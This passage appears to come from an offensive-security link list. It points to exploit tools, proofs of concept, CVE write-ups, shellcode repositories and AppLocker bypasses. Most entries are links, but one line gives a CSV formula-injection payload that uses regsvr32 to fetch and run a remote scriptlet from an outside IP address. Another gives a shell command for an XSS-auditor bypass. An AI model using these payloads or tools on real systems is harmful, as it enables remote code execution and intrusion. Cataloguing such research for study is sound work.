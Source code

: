 -	This Powershell script will generate a malicious Microsoft Office document with a specified payload and persistence method. https://github.com/enigma0x3/Generate-Macro
-	Auto Domain Admin and Network Exploitation (autoDANE). Auto DANE attempts to automate the process of exploiting, pivoting and escalating privileges on windows domains https://github.com/sensepost/autodane
-	NtUserDefSetText() in Windows 10 will panic if you set the ansi flag incorrectly. https://gist.github.com/taviso/9e673add738de0da6534cbd20e705d3b
-	A Look at CVE-2017-8715: Bypassing CVE-2017-0218 using PowerShell Module Manifests https://posts.specterops.io/a-look-at-cve-2017-8715-bypassing-cve-2017-0218-using-powershell-module-manifests-1f811aea858c
-	Exim RCE POC
	-	https://twitter.com/essobi/status/934581519104045056
	-	https://t.co/05p4uMJNAb
-	This is a CSV and ... https://ghostbin.com/paste/qgd7g` filleasdrText1,fillasderText2,fillasderText3,=MSEXCEL|'......\Windows\System32\regsvr32 /s /n /u /i:http://192.168.1.1/SaTLauncher.sct scrobj.dll'!''\`
-	CVE-2017-5123 [GitHub](https://github.com/Synacktiv/exploiting-cve-2017-5123)
-	[Windows Process Injection: Breaking BaDDEr](https://modexp.wordpress.com/2019/08/09/windows-process-injection-breaking-badder/)
-	Some exploit and PoC in C# https://github.com/FuzzySecurity/Sharp-Suite

### Remote

-	How to exploit ETERNALROMANCE/SYNERGY to get a Meterpreter Session on Win Server 2016 : https://www.exploit-db.com/docs/42329.pdf
-	msxsl ShellCode Runner : https://gist.github.com/subTee/7c926f51181945d20594eb91e8f4064b or https://github.com/re4lity/subTee-gits-backups
-	massExpConsole - Collection of Tools and Exploits with a CLI UI http://www.kitploit.com/2017/05/massexpconsole-collection-of-tools-and.html https://github.com/jm33-m0/massExpConsole
-	The path pivot attack ( [CVE-2017-2619](https://www.samba.org/samba/security/CVE-2017-2619.html), a race condition vulnerability affecting Samba) https://gdelugre.github.io/2017/11/06/samba-path-pivot-attack/
-	Excalibur - An Eternalblue exploit payload based Powershell https://github.com/Dviros/Excalibur
-	huawei 0day https://pastebin.com/4nzunPB5
-	Link rel=import finds and executes javascript with any content-type and nosniff. Any file uploaded by the user will allow you to bypass the Chrome XSS Auditor. `d -c 1000000 /dev/urandom > /tmp/bin.bin; echo "<script>alert()</script>" >> /tmp/bin.bin` . Demo at https://bo0om.ru/bin.html
-	CMSTP.exe - remote .sct execution applocker bypass.
	-	https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
	-	https://gist.github.com/KyleHanslovan/5e0f00d331984c1fb5be32c40f3b265a
	-	https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80

### Shell code

-	http://shell-storm.org/shellcode/,
-	https://www.exploit-db.com/shellcode/,
-	https://packetstormsecurity.com/files/tags/shellcode/
-	Linux port sharding : Slides https://speakerdeck.com/joewalnes/linux-port-sharding
-	Shellcoding for Linux and Windows Tutorial http://www.vividmachines.com/shellcode/shellcode.html

### Android
